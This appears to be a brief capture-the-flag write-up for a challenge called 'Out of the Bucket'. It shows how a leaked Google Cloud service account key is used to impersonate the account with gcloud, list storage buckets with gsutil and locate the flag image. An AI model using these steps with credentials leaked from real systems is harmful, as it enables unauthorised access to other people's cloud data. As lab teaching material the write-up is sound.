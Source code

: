 In Out of the Bucket we identify a JSON (funny.json) which is a service account key. We can impersonate using the following command:
```
gcloud auth activate-service-account --key-file=funny.jso
```
Then we can list the buckets (as hinted in the title):
```
gsutil ls
```
We find another bucket named flag-images. We can list the contents of the bucket:
```
gsutil ls gs://flag-images
```
The rest of the challenge involves hunting down the image that contains the flag. The flag is in xa.png.

